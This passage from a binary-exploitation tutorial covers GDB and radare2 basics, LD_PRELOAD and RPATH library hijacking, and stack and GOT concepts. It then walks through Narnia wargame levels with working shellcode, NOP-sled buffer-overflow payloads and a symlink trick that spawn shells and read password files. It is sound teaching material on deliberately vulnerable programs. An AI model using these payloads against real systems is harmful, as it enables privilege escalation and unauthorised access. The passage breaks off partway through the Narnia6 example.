 * w Words (four bytes). This is the initial default.
 * g Giant words (eight bytes).

Examining Data
^^^^^^^^^^^^^^

Sometimes, you need to know the address of the variable, inorder to write arbitary value in to it. 
   
:: 

  run gdb <program> p &<variablename>

We can also use

::

 (gdb) info address variable_name
 Symbol "variable_name" is static storage at 0x903278.

Find the address of a string using GDB?
  
::

   (gdb) info proc map
   process 930
   Mapped address spaces:

      Start Addr           End Addr       Size     Offset objfile
        0x400000           0x401000     0x1000        0x0 /myapp
        0x600000           0x601000     0x1000        0x0 /myapp
        0x601000           0x602000     0x1000     0x1000 /myapp
    0x7ffff7a1c000     0x7ffff7bd2000   0x1b6000        0x0 /usr/lib64/libc-2.17.so
    0x7ffff7bd2000     0x7ffff7dd2000   0x200000   0x1b6000 /usr/lib64/libc-2.17.so
    0x7ffff7dd2000     0x7ffff7dd6000     0x4000   0x1b6000 /usr/lib64/libc-2.17.so
    0x7ffff7dd6000     0x7ffff7dd8000     0x2000   0x1ba000 /usr/lib64/libc-2.17.so

    (gdb) find 0x7ffff7a1c000,0x7ffff7bd2000,"/bin/sh"
    0x7ffff7b98489
    1 pattern found.
    (gdb) x /s 0x7ffff7b98489
    0x7ffff7b98489: "/bin/sh"
    (gdb) x /xg 0x7ffff7b98489
    0x7ffff7b98489: 0x0068732f6e69622f

Examining Frames
^^^^^^^^^^^^^^^^

Here we would interpret GDB “info frame” output?

::

 (gdb) info frame
 Stack level 0, frame at 0xb75f7390:
 eip = 0x804877f in base::func() (testing.cpp:16); saved eip 0x804869a
 called by frame at 0xb75f73b0
 source language c++.
 Arglist at 0xb75f7388, args: this=0x0
 Locals at 0xb75f7388, Previous frame's sp is 0xb75f7390
 Saved registers:
 ebp at 0xb75f7388, eip at 0xb75f738c


* **stack level 0** : frame num in backtrace, 0 is current executing frame, which grows downwards, in consistence with the stack.
* **frame at 0xb75f7390** : starting memory address of this stack frame
* **eip = 0x804877f in base::func() (testing.cpp:16); saved eip 0x804869a** : eip is the register for next instruction to execute (also called program counter). so at this moment, the next to execute is at "0x804877f", which is line 16 of testing.cpp.
* **saved eip "0x804869a"** is so called "return address", i.e., the instruction to resume in caller stack frame after returning from this callee stack. It is pushed into stack upon "CALL" instruction (save it for return).
* **called by frame at 0xb75f73b0** : the address of the caller stack frame
* **source language c++** : which language in use
* **Arglist at 0xb75f7388, args: this=0x0** : the starting address of arguments
* **Locals at 0xb75f7388** : address of local variables.
* **Previous frame's sp is 0xb75f7390** : this is where the previous frame´s stack pointer point to (the caller frame), at the moment of calling, it is also the starting memory address of called stack frame.
* **Saved registers** : These are the two addresses on the callee stack, for two saved registers.

 * ebp at 0xb75f7388 that is the address where the "ebp" register of the caller´s stack frame saved (please note, it is the register, not the caller´s stack address). i.e., corresponding to "PUSH %ebp". "ebp" is the register usually considered as the starting address of the locals of this stack frame, which use "offset" to address. In another word, the operations of local variables all use this "ebp", so you will see something like mov -0x4(%ebp), %eax, etc.
 * eip at 0xb75f738c as mentioned before, but here is the address of the stack (which contains the value "0x804877f").

Examining Registers
^^^^^^^^^^^^^^^^^^^

We can refer to machine register contents, in expressions, as variables with names starting with '$'. The names of registers are different for each machine; use info registers to see the names used on your machine.

* info registers : Print the names and values of all registers except floating-point registers (in the selected stack frame).
* info all-registers : Print the names and values of all registers, including floating-point registers.
* info registers regname ... : Print the relativized value of each specified register regname. As discussed in detail below, register values are normally relative to the selected stack frame. regname may be any register name valid on the machine you are using, with or without the initial '$'.

Setting program variable
^^^^^^^^^^^^^^^^^^^^^^^^

Either

::
 
 set variable i = 10

or update arbitary (writable) location by address

::

 (gdb) set {int}0x83040 = 4

Radare2 Basics
==============

::

 r2 -Ad ./crackme0x01 : Opens r2 in debug mode with the Analyze all flag active
 afll : Lists all functions and their location in memory
 s sym.main : Seeks to function sym.main. Address in prompt will change
 pdf @ sym.main (which means something like “show me the main function without seek to it”) could be used.

 pdf : "Print Disassembling Function"
 iz : Shows the strings present in the data section. One can use izz to see the strings for the entire binary
 db 0x12345678 : Sets a breakpoint at address 0x12345678. It's possible to set more than one breakpoint
 dc : Runs the program until it hits a breakpoint
 dr : Shows the content of all registers. Use dr <register> for a specific register
 afvd : Shows the content of all local/args variables
 pf Prints formatted data. Use pf?? to see available formats and pf??? for examples
 ? 0x10 Converts the number 0x10 to the most common bases



Appendix-II LD_PRELOAD
======================

Hijacking Functions
-------------------

Let's say there's a function getrand which generates a random path for the files to be stored

::

 int getrand(char **path)
 {
  char *tmp;
  int pid;
  int fd;
 
  srandom(time(NULL));
 
  tmp = getenv("TEMP");
  pid = getpid();
  
  asprintf(path, "%s/%d.%c%c%c%c%c%c", tmp, pid, 
    'A' + (random() % 26), '0' + (random() % 10), 
    'a' + (random() % 26), 'A' + (random() % 26),
    '0' + (random() % 10), 'a' + (random() % 26));
 
  fd = open(*path, O_CREAT|O_RDWR, 0600);
  unlink(*path);
  return fd;
 }

If we see the above function, getpid figures out the PID of the program, unlink deletes the file and random provides a random number.

We also need to check if the binary is dynamically linked or not?

::

 file /home/flagXX/flagXX
 /home/flagXX/flagXX: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.15, not stripped

If so, then we can create a c file to override the functions we want – random(), unlink() and getpid():

::

 hacking_randomfile.c

 // Take control of random
 int random(){
    return 0;
 }

 // Stop the file being deleted
 int unlink(const char *pathname) {
    return 0;
 }

 // Take control of the reported PID
 int getpid() {
    return 1;
 }


Now, we need to compile this with

::

 gcc hacking_randomfile.c -o hacking_randomfile -shared -fPIC

Using gcc we've specified the normal input file (hacking_randomfile.c) and output file (-o hacking_randomfile), but we've also specified two additional options: 

::

 -shared to make a library and 
 -fPIC to specify Position Independent Code, which is necessary for making a shared library.

Now that we've built hacking_randomfile as a shared library, here's the basic usage:

::

 $ LD_PRELOAD="$PWD/hacking_randomtime" ./main_targetfile


SANS has written a blog about `Go To The Head Of The Class: LD_PRELOAD For The Win <https://pen-testing.sans.org/blog/2017/12/06/go-to-the-head-of-the-class-ld-preload-for-the-win>`_ 

Important things to note
^^^^^^^^^^^^^^^^^^^^^^^^

* Function definition should be correct
* Funtion input and return type should also be correct.

Controlling uninitialized memory with LD_PRELOAD
------------------------------------------------

Dan Rosenberg has documented this technique at `Controlling uninitialized memory with LD_PRELOAD <http://vulnfactory.org/blog/2010/04/08/controlling-uninitialized-memory-with-ld_preload/>`_ The below stuff is directly taken from the blog post.

A local Linux user can exercise a degree of control over uninitialized memory on the stack when executing a program. This happens because of the way the Linux linker/loader, ld.so, handles the LD_PRELOAD environment variable. This variable allows users to specify libraries to be preloaded, effectively allowing users to override functions used in a particular binary. However, regardless of whether or not libraries specified via LD_PRELOAD are actually loaded at runtime, ld.so copies the name of each library onto the stack prior to executing the program, and doesn’t clean up after itself. By specifying a very long LD_PRELOAD variable and executing a binary, a portion of the stack will be overwritten with part of the LD_PRELOAD variable during linking, and it will stay that way once execution of the program begins, even on setuid binaries, where the library itself is not loaded.

This means we can initialise the memory to something under out control:

::

 $ export LD_PRELOAD=`python -c 'print "/bin/getflag\x0a"*1000'`

i.e. fill the stack with one thousand /bin/getflags.

Then when we run flagXX with length of 1, it will almost certainly have this in the buffer already:

::

 $ echo -ne "Content-Length: 1\n " | /home/flagXX/flagXX
 sh: !getflag: command not found
 getflag is executing on a non-flag account, this doesn't count
 getflag is executing on a non-flag account, this doesn't count
 getflag is executing on a non-flag account, this doesn't count
 ... lots of repeats ...
 sh: line 74: /bin/getfl=qm: No such file or directory

Of course, the LD_PRELOAD variable is ignored with setuid binaries, since otherwise an attacker could trivially override arbitrary functions in setuid binaries and easily take control of a system.

LIBC - Rpath
------------

If there's exist a suid binary with a RPATH defined which we control, we can get code execution. Let's first read what's rpath?

RPATH
^^^^^

`rpath <https://en.wikipedia.org/wiki/Rpath>`_ designates the run-time search path hard-coded in an executable file or library. Dynamic linking loaders use the rpath to find required libraries. Specifically it encodes a path to shared libraries into the header of an executable (or another shared library). This RPATH header value (so named in the Executable and Linkable Format header standards) may either override or supplement the system default dynamic linking search paths.

Libraries loaded from the run-time path defined by RPATH wont disable the setuid execution as LDPRELOAD would do. So we can inject our own libc.so.6 (Using version GLIBC2.0 as required by the binary) in the RPATH directory and hook any of the used functions to execute our setuid shell.

We can use readelf to check the dynamic section of a binary

::

 readelf -d flagXX

 Dynamic section at offset 0xf20 contains 21 entries:
  Tag        Type                         Name/Value
 0x00000001 (NEEDED)                     Shared library: [libc.so.6]
 0x0000000f (RPATH)                      Library rpath: [/var/tmp/flagXX]
 0x0000000c (INIT)                       0x80482c0

In the above example, we can see that RPATH is defined as /var/tmp/flagXX, so the binary tries to load the libc.so.6 from that location.


Let's see what are the functions the binary utilizes from libc

::

 objdump -R flagXX

 flagXX:     file format elf32-i386

 DYNAMIC RELOCATION RECORDS
 OFFSET   TYPE              VALUE
 08049ff0 R_386_GLOB_DAT    __gmon_start__
 0804a000 R_386_JUMP_SLOT   puts
 0804a004 R_386_JUMP_SLOT   __gmon_start__
 0804a008 R_386_JUMP_SLOT   __libc_start_main

If RPATH is writeable, we can possibly get a shell by creating a fake libc.so and defining fake __libc_start_main function with 

::

 system("/bin/sh");

to get a shell. We may also refer `Linux x86 Program Start Up or - How the heck do we get to main()? <http://dbp-consulting.com/tutorials/debugging/linuxProgramStartup.html>`_ to understand what happens when we execute a linux binary (shared not static).


libc_start_main
^^^^^^^^^^^^^^^

From `linuxbase <http://refspecs.linuxbase.org/LSB_3.1.1/LSB-Core-generic/LSB-Core-generic/baselib---libc-start-main-.html>`_ The _libcstart_main() function shall perform any necessary initialization of the execution environment, call the main function with appropriate arguments, and handle the return from main(). If the main() function returns, the return value shall be passed to the exit() function.

::

 int __libc_start_main(int (*main) (int, char * *, char * *), int argc, char * * ubp_av, void (*init) (void), void (*fini) (void), void (*rtld_fini) (void), void (* stack_end));

gmon_start
^^^^^^^^^^

The function call_gmon_start initializes the gmon profiling system. This system is enabled when binaries are compiled with the -pg flag, and creates output for use with gprof(1). In the case of the scenario binary call_gmon_start is situated directly proceeding that _start function. The call_gmon_start function finds the last entry in the Global Offset Table (also known as __gmon_start__) and, if not NULL, will pass control to the specified address. The __gmon_start__ element points to the gmon initialization function, which starts the recording of profiling information and registers a cleanup function with atexit(). In our case however gmon is not in use, and as such __gmon_start__ is NULL.


Version Reference
^^^^^^^^^^^^^^^^^

GLib provides version information, primarily useful in configure checks for builds that have a configure script.

Check glib version in binary

::

 objdump -p flagXX

 flagXX:     file format elf32-i386

 Version References:
  required from libc.so.6:
    0x0d696910 0x00 02 GLIBC_2.0

or 

::

 objdump -T flagXX 

 flagXX:     file format elf32-i386

 DYNAMIC SYMBOL TABLE:
 00000000      DF *UND*	00000000  GLIBC_2.0   puts
 00000000  w   D  *UND*	00000000              __gmon_start__
 00000000      DF *UND*	00000000  GLIBC_2.0   __libc_start_main
 080484cc g    DO .rodata	00000004  Base        _IO_stdin_used

Check glib version in your linux machine

::

 ldd --version
 ldd (Debian GLIBC 2.26-2) 2.26

If you get error like "no version information available", create a file version.ld with the version required.

::

 cat version.ld
 GLIBC_2.0 {
 };

and link it while compiling

::

 gcc -shared -static-libgcc -fPIC -Wl,--version-script=version.ld,-Bstatic shell.c -o libc.so.6

LD_DEBUG environment variable
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

If the LD_DEBUG variable is set then the Linux dynamic linker will dump debug information which can be used to resolve most loading problems very quickly. To see the available options just run any program with the variable set to help, i.e.:

::

 LD_DEBUG=help cat
 Valid options for the LD_DEBUG environment variable are:

  libs        display library search paths
  reloc       display relocation processing
  files       display progress for input file
  symbols     display symbol table processing
  bindings    display information about symbol binding
  versions    display version dependencies
  all         all previous options combined
  statistics  display relocation statistics
  unused      determined unused DSOs
  help        display this help message and exit

If you want to debug a binary

::

 LD_DEBUG all ./flagXX

 D_DEBUG=all ./flagXX
      4796:
      4796:	file=libc.so.6 [0];  needed by ./flagXX [0]
      4796:	find library=libc.so.6 [0]; searching
      4796:	 search path=/var/tmp/flagXX/tls/i686/sse2/cmov:/var/tmp/flagXX/tls/i686/sse2:/var/tmp/flagXX/tls/i686/cmov:/var/tmp/flagXX/tls/i686:/var/tmp/flagXX/tls/sse2/cmov:/var/tmp/flagXX/tls/sse2:/var/tmp/flagXX/tls/cmov:/var/tmp/flagXX/tls:/var/tmp/flagXX/i686/sse2/cmov:/var/tmp/flagXX/i686/sse2:/var/tmp/flagXX/i686/cmov:/var/tmp/flagXX/i686:/var/tmp/flagXX/sse2/cmov:/var/tmp/flagXX/sse2:/var/tmp/flagXX/cmov:/var/tmp/flagXX		(RPATH from file ./flagXX)
      4796:	  trying file=/var/tmp/flagXX/tls/i686/sse2/cmov/libc.so.6

ulimit
------

ulimit
User limits - limit the use of system-wide resources.

::

 Syntax
      ulimit [-acdfHlmnpsStuv] [limit]

 Options

   -S   Change and report the soft limit associated with a resource.
   -H   Change and report the hard limit associated with a resource.

   -a   All current limits are reported.
   -c   The maximum size of core files created.
   -d   The maximum size of a process's data segment.
   -f   The maximum size of files created by the shell(default option)
   -l   The maximum size that can be locked into memory.
   -m   The maximum resident set size.
   -n   The maximum number of open file descriptors.
   -p   The pipe buffer size.
   -s   The maximum stack size.
   -t   The maximum amount of cpu time in seconds.
   -u   The maximum number of processes available to a single user.
   -v   The maximum amount of virtual memory available to the process.

ulimit provides control over the resources available to the shell and to processes started by it, on systems that allow such control.

The soft limit is the value that the kernel enforces for the corresponding resource. The hard limit acts as a ceiling for the soft limit.

Appendix-III Basic Concepts
===========================

The below has been completely taken from `Binary Exploitation CTF101 <https://ctf101.org/binary-exploitation/overview/>`_

Binaries, or executables, are machine code for a computer to execute. For the most part, the binaries that you will face in CTFs are Linux ELF files or the occasional windows executable.
Binary Exploitation is a broad topic within Cyber Security which really comes down to finding a vulnerability in the program and exploiting it to gain control of a shell or modifying the program's functions.

Registers
---------

A register is a location within the processor that is able to store data, much like RAM.

Registers can hold any value: addresses (pointers), results from mathematical operations, characters, etc. Some registers are reserved however, meaning they have a special purpose and are not "general purpose registers" (GPRs).

On x86, the only 2 reserved registers are

* rip which hold the address of the next instruction to execute and
* rsp which hold the address of the stack respectively.

On x86, the same register can have different sized accesses for backwards compatability. For example,

* the rax register is the full 64-bit register,
* eax is the low 32 bits of rax,
* ax is the low 16 bits,
* al is the low 8 bits, and ah is the high 8 bits of ax (bits 8-16 of rax).

Stack
-----

In computer architecture, the stack is a hardware manifestation of the stack data structure (a Last In, First Out queue).

* The esp/rsp register holds the address in memory where the bottom of the stack resides.
* When something is pushed to the stack, esp decrements by 4 (or 8 on 64-bit x86), and the value that was pushed is stored at that location in memory.
* Likewise, when a pop instruction is executed, the value at esp is retrieved (i.e. esp is dereferenced), and esp is then incremented by 4 (or 8).

..Note :: The stack "grows" down to lower memory addresses!

* Conventionally, ebp/rbp contains the address of the top of the current stack frame, and so sometimes local variables are referenced as an offset relative to ebp rather than an offset to esp.
* A stack frame is essentially just the space used on the stack by a given function.

Uses
^^^^

The stack is primarily used for a few things:

* Storing function arguments
* Storing local variables
* Storing processor state between function calls


Example
^^^^^^^

Let's compile a simple program and check for stack

::

 #include <stdio.h>
 void say_hi(const char * name) {
    printf("Hello %s!\n", name);
 }

 int main(int argc, char ** argv) {
    char * name;
    if (argc != 2) {
        return 1;
    }
    name = argv[1];
    say_hi(name);
    return 0;
 }

::

 gcc -g hello.c -o hello

Put breakpoints at the call of say_hi function

* Check whats the esp and ebp value.
* When a call instruction is executed; call instructions first push the current instruction pointer to the stack, then jump to their destination.
* The first thing say_hi does is save the current ebp so that when it returns, ebp is back where main expects it to be.

Calling Conventions
-------------------

To be able to call functions, there needs to be an agreed-upon way to pass arguments.

In Linux binaries, there are really only two commonly used calling conventions: cdecl for 32-bit binaries, and SysV for 64-bit

cdecl
^^^^^

In 32-bit binaries on Linux, function arguments are passed in on the stack in reverse order. A function like this:

::

 int add(int a, int b, int c) {
    return a + b + c;
    }
 
would be invoked by pushing c, then b, then a.

SysV
^^^^

For 64-bit binaries, function arguments are first passed in certain registers:

::

 RDI
 RSI
 RDX
 RCX
 R8
 R9

then any leftover arguments are pushed onto the stack in reverse order, as in cdecl.

Global Offset Table
-------------------

The Global Offset Table (or GOT) is a section inside of programs that holds addresses of functions that are dynamically linked. common functions (like those in libc) are "linked"
into the program so they can be saved once on disk and reused by every program.

Unless a program is marked full RELRO, the resolution of function to address in dynamic library is done lazily. All dynamic libraries are loaded into memory along with the main program at launch, however functions are not mapped to their actual code until they're first called. For example, in the following C snippet puts won't be resolved to an address in libc until after it has been called once:

::

 int main() {
    puts("Hi there!");
    puts("Ok bye now.");
    return 0;
 }

To avoid searching through shared libraries each time a function is called, the result of the lookup is saved into the GOT so future function calls "short circuit" straight to their implementation bypassing the dynamic resolver.

This has two important implications:

* The GOT contains pointers to libraries which move around due to ASLR
* The GOT is writable

PLT
^^^

Before a functions address has been resolved, the GOT points to an entry in the Procedure Linkage Table (PLT). This is a small "stub" function which is responsible for calling the dynamic linker with (effectively) the name of
the function that should be resolved.

Buffer
------

A buffer is any allocated space in memory where data (often user input) can be stored.

In the following C program name would be considered a stack buffer:

::

 #include <stdio.h>

 int main() {
 char name[64] = {0};
 read(0, name, 63);
 printf("Hello %s", name);
 return 0;
 }

Buffers could also be global variables:

::

 #include <stdio.h>
 char name[64] = {0};
 int main() { code_snippet }

Or dynamically allocated on the heap like

::

 char *name = malloc(64);
 memset(name, 0, 64);

Buffer Overflow Examples
========================

* Let's see a simple example of binary exploitation Narnia0 where we have to write a written value.

 .. code:: c

   #include <stdio.h>
   #include <stdlib.h>

   int main(){
       long val=0x41414141;
       char buf[20];

       printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
       printf("Here is your chance: ");
       scanf("%24s",&buf);

       printf("buf: %s\n",buf);
       printf("val: 0x%08x\n",val);

       if(val==0xdeadbeef)
           system("/bin/sh");
       else {
           printf("WAY OFF!!!!\n");
           exit(1);
       }

       return 0;
   }

 In this example, value of variable val can be overwritten by overflowing buf. Another small observation is scanf function scans 24 characters. If you directly write 20 "A" and the address it won't work as the val doesn't matches. So, we have to use python print command. If we use 

 .. code:: python

   python -c 'print "A"*20 + "\xef\xbe\xad\xde"' | ./narnia0

 you will see that the value would match but the shell is exited. To keep the shell active, we need to use cat as shown below:

 ::

   (python -c 'print "A"*20 + "\xef\xbe\xad\xde"';cat) | ./narnia0


* In another example below Narnia1

 ::

   #include <stdio.h>

   int main(){
       int (*ret)();

       if(getenv("EGG")==NULL){
           printf("Give me something to execute at the env-variable EGG\n");
           exit(1);
       }

       printf("Trying to execute EGG!\n");
       ret = getenv("EGG");
       ret();

       return 0;
   }

 We need to set a environment variable EGG with an shellcode. Previously, I tried with

 ::

   export EGG="\bin\sh"
   and 
   export EGG="\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"

 Shellcode were taken from the Shellstorm website. However, both failed with Segmentation fault. superkojiman, barrebas helped me with and told that if I write

 ::

   export EGG=`python -c 'print "\xCC"'`

 It should sigtrap. "\xCC" acts as a software breakpoint, basically an INT3, It tells you whether your shellcode is stored properly & executed, if the program receives SIGTRAP, you know you're good to go, and it's a good way to make sure you've properly redirected execution to your shellcode. You can further put "\xCC" anywhere in the shellcode, if it crashes before "\xCC", you know for sure that your shellcode has bad characters. They suggested to export the EGG variable as

 ::

   export EGG=`python -c 'print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"'`

 and it worked like a charm.


* In another example Narnia2

 ::

   #include <stdio.h>
   #include <string.h>
   #include <stdlib.h>

   int main(int argc, char * argv[]){
       char buf[128];

       if(argc == 1){
           printf("Usage: %s argument\n", argv[0]);
           exit(1);
       }
       strcpy(buf,argv[1]);
       printf("%s", buf);

       return 0;
   }

 It's to easy that buffer overflow vulnerability exists because of strcpy. Let's see what is the offset for this.

 ::

   ulimit -c unlimited
   ./narnia2 `/usr/share/metasploit-framework/tools/pattern_create.rb 200`
   Segmentation fault (core dumped)

   gdb -q -c core ./narnia2
   #0  0x37654136 in ?? ()

   /usr/share/metasploit-framework/tools/pattern_offset.rb 0x37654136
   [*] Exact match at offset 140
   narnia2@melinda:~$ gdb -q /narnia/narnia2
   (gdb) disassemble main 
   Dump of assembler code for function main:
   **Snip**
      0x080484a0 <+67>:    mov    %eax,(%esp)
      0x080484a3 <+70>:    call   0x8048320 <strcpy@plt>
   **Snip**
   End of assembler dump.
   (gdb) br *main+70
   Breakpoint 1 at 0x80484a3
   (gdb) run `python -c 'print "A"*140 + "BBBB"'`
   Starting program: /games/narnia/narnia2 `python -c 'print "A"*140 + "BBBB"'`

   Breakpoint 1, 0x080484a3 in main ()
   (gdb) n
   0x42424242 in ?? ()

 Let's see the stack after the strcpy, which would tell us the probable address we want to redirect execution.

 ::

   (gdb) x/80xw $esp+400
   0xffffd7e0: 0x0000000f  0xffffd80b  0x00000000  0x00000000
   0xffffd7f0: 0x00000000  0x00000000  0x1d000000  0xa9c79d1b
   0xffffd800: 0xe1a67367  0xc19fc850  0x6996cde4  0x00363836
   0xffffd810: 0x2f000000  0x656d6167  0x616e2f73  0x61696e72
   0xffffd820: 0x72616e2f  0x3261696e  0x41414100  0x41414141
   0xffffd830: 0x41414141  0x41414141  0x41414141  0x41414141
   0xffffd840: 0x41414141  0x41414141  0x41414141  0x41414141
   0xffffd850: 0x41414141  0x41414141  0x41414141  0x41414141
   0xffffd860: 0x41414141  0x41414141  0x41414141  0x41414141
   0xffffd870: 0x41414141  0x41414141  0x41414141  0x41414141
   0xffffd880: 0x41414141  0x41414141  0x41414141  0x41414141
   0xffffd890: 0x41414141  0x41414141  0x41414141  0x41414141
   0xffffd8a0: 0x41414141  0x41414141  0x41414141  0x41414141
   0xffffd8b0: 0x41414141  0x42424241  0x44580042  0x45535f47
   0xffffd8c0: 0x4f495353  0x44495f4e  0x3939383d  0x53003733

 Let pick a shellcode from shellstorm for a Linux x86 execuve /bin/sh and calculate the number of NOPs

 ::

   narnia2@melinda:~$ python -c 'print len("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80")'
   23
   narnia2@melinda:~$ bc    
   140-23
   117
   narnia2@melinda:~$ /narnia/narnia2 `python -c 'print "\x90"*117 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "\x50\xd8\xff\xff"'`
   $ cat /etc/narnia_pass/narnia3
   **********
   $ 


* In another example Narnia3

 .. code:: c

   #include <stdio.h>
   #include <sys/types.h>
   #include <sys/stat.h>
   #include <fcntl.h>
   #include <unistd.h>
   #include <stdlib.h>
   #include <string.h> 

   int main(int argc, char **argv){
     
           int  ifd,  ofd;
           char ofile[16] = "/dev/null";
           char ifile[32];
           char buf[32];
     
           if(argc != 2){
                   printf("usage, %s file, will send contents of file 2 /dev/null\n",argv[0]);
                   exit(-1);
           }
     
           /* open files */
           strcpy(ifile, argv[1]);
           if((ofd = open(ofile,O_RDWR)) < 0 ){
                   printf("error opening %s\n", ofile);
                   exit(-1);
           }
           if((ifd = open(ifile, O_RDONLY)) < 0 ){
                   printf("error opening %s\n", ifile);
                   exit(-1);
           }
    
           /* copy from file1 to file2 */
           read(ifd, buf, sizeof(buf)-1);
           write(ofd,buf, sizeof(buf)-1);
           printf("copied contents of %s to a safer place... (%s)\n",ifile,ofile);
     
           /* close 'em */
           close(ifd);
           close(ofd);
    
           exit(1);
   }

 Superkojiman notes explain this best, copied here with permission, thanks superkojiman :)

 ::

   narnia3@melissa:/narnia$ ./narnia3 /etc/motd
   copied contents of /etc/motd to a safer place... (/dev/null)

 We can use this program to read the contents of /etc/narnia\_pass/narnia4, but the output is written to /dev/null. We control the input file and the output file is set as /dev/null. However, because of the way the stack is laid out, we can write past the ifile buffer and overwrite the value of ofile. This lets us replace /dev/null with another file of our choosing. Here's what the stack looks like:

 ::

   +---------+
   |  ret    |
   |  sfp    |
   |  ofd    |
   |  ifd    |
   |  ofile  |
   |  ifile  |
   |  buf    |
   +---------+ <- esp

 ifile and ofile are 32-byte arrays. We can compile the program with -ggdb and examine it in gdb 

 ::

   # gcc -ggdb -m32 -fno-stack-protector -Wl,-z,norelro narnia3.c -o narnia3
   # gdb -q narnia3

 If we disas main, we can see that strcpy is called at \*main+100:

 ::

      0x08048551 <+93>:    lea    0x38(%esp),%eax
      0x08048555 <+97>:    mov    %eax,(%esp)
      0x08048558 <+100>:   call   0x8048400 <strcpy@plt>
      0x0804855d <+105>:   movl   $0x2,0x4(%esp)
      0x08048565 <+113>:   lea    0x58(%esp),%eax
      0x08048569 <+117>:   mov    %eax,(%esp)

 We set a breakpoint there and run the program with the following arguments:

 ::

   (gdb) r `python -c 'print "A"*32 + "/tmp/hack"'`
   Starting program: /root/wargames/narnia/3/narnia3 `python -c 'print "A"*32 + "/tmp/hack"'`

   Breakpoint 1, 0x08048558 in main (argc=2, argv=0xbffff954) at narnia3.c:37
   37          strcpy(ifile, argv[1]);


 At the first breakpoint, we examine the local variables

 ::

   (gdb) i locals
   ifd = 134514299
   ofd = -1208180748
   ofile = "/dev/null\000\000\000\000\000\000"
   ifile = "x\370\377\277\234\203\004\b\200\020\377\267\214\230\004\b\250\370\377\277\211\206\004\b$\243\374\267\364\237", <incomplete sequence \374\267>
   buf = "\370\370\377\267\364\237\374\267\371\234\367\267\245B\352\267h\370\377\277չ\350\267\364\237\374\267\214\230\004\b"

 ofile is set to /dev/null as expected. We'll step to the next instruction and check again.
 ::

   (gdb) s
   38          if((ofd = open(ofile,O_RDWR)) < 0 ){
   (gdb) i locals
   ifd = 134514299
   ofd = -1208180748
   ofile = "/tmp/hack\000\000\000\000\000\000"
   ifile = 'A' <repeats 32 times>
   buf = "\370\370\377\267\364\237\374\267\371\234\367\267\245B\352\267h\370\377\277չ\350\267\364\237\374\267\214\230\004\b"

  As expected, ofile has been overwritten to /tmp/hack. However ifile is now AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/tmp/hack so in order to read /etc/narnia_pass/narnia4, we need to create a directory AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/tmp and symlink /etc/narnia_pass/narnia4 to AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/tmp/hack

 ::

   narnia3@melissa:/tmp/skojiman3$ mkdir -p AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/tmp
   narnia3@melissa:/tmp/skojiman3$ ln -s /etc/narnia_pass/narnia4 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/tmp/hack

 Next we need to create the output file /tmp/hack that ofile points to
 
 ::
  
   narnia3@melissa:/tmp/skojiman3$ touch /tmp/hack
   narnia3@melissa:/tmp/skojiman3$ chmod 666 /tmp/hack
   narnia3@melissa:/tmp/skojiman3$ ls -l /tmp/hack
   -rw-rw-rw- 1 narnia3 narnia3 0 2012-11-24 22:58 /tmp/hack

 Finally, execute /narnia/narnia3 as follows:

 ::

   narnia3@melissa:/tmp/skojiman3$ /narnia/narnia3 `python -c 'print "A"*32 + "/tmp/hack"'`
   copied contents of AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/tmp/hack to a safer place... (/tmp/hack)
   narnia3@melissa:/tmp/skojiman3$ cat /tmp/hack
   thaenohtai
   ��*������e���@�narnia3@melissa:/tmp/skojiman3$


* Let's see another example Narnia6.

 .. code:: c

    #include <stdio.h>
    #include <stdlib.h>
    #include <string.h>

    extern char **environ;

    // tired of fixing values...
    // - morla
    unsigned long get_sp(void) {
           __asm__("movl %esp,%eax\n\t"
                   "and $0xff000000, %eax"
                   );
    }

    int main(int argc, char *argv[]){
        char b1[8], b2[8];
        int  (*fp)(char *)=(int(*)(char *))&puts, i;

        if(argc!=3){ printf("%s b1 b2\n", argv[0]); exit(-1); }

        /* clear environ */
        for(i=0; environ[i] != NULL; i++)
            memset(environ[i], '\0', strlen(environ[i]));
        /* clear argz    */
        for(i=3; argv[i] != NULL; i++)
            memset(argv[i], '\0', strlen(argv[i]));

        strcpy(b1,argv[1]);
        strcpy(b2,argv[2]);
        //if(((unsigned long)fp & 0xff000000) == 0xff000000)
        if(((unsigned long)fp & 0xff000000) == get_sp())
            exit(-1);
        fp(b1);

        exit(1);
    }

 Stack is not executable for this binary. This binary is an example of “return-to-libc” attack is a computer security attack usually starting with a buffer overflow in which a subroutine return address on a call stack is replaced by an address of a subroutine that is already present in the process’ executable memory, rendering the NX bit feature useless (if present) and ridding the attacker of the need to inject their own code.

 ::

   gdb -q narnia6
   Reading symbols from /home/bitvijays/narnia6...(no debugging symbols found)...done.
   gdb-peda$ checksec 
   CANARY    : disabled
   FORTIFY   : disabled
   NX        : ENABLED
   PIE       : disabled
   RELRO     : disabled
   gdb-peda$ 

 Let's compile the source on the local and check what happens:

 ::

   gcc -m32 -ggdb -fno-stack-protector -Wall narnia6.c -o narnia61

 If you see carefully, we passed A\ *8 + BBBB + " " + "C"*\ 8 + DDDD, which resulted in

 ::

   gdb -q ./narnia61
   gdb-peda$ pdisass main
   Dump of assembler code for function main:
      0x080486d2 <+330>:   call   0x8048450 <exit@plt>
      0x080486d7 <+335>:   lea    eax,[esp+0x20]
      0x080486db <+339>:   mov    DWORD PTR [esp],eax
      0x080486de <+342>:   mov    eax,DWORD PTR [esp+0x28]
      0x080486e2 <+346>:   call   eax
      0x080486e4 <+348>:   mov    DWORD PTR [esp],0x1
      0x080486eb <+355>:   call   0x8048450 <exit@plt>
   End of assembler dump.
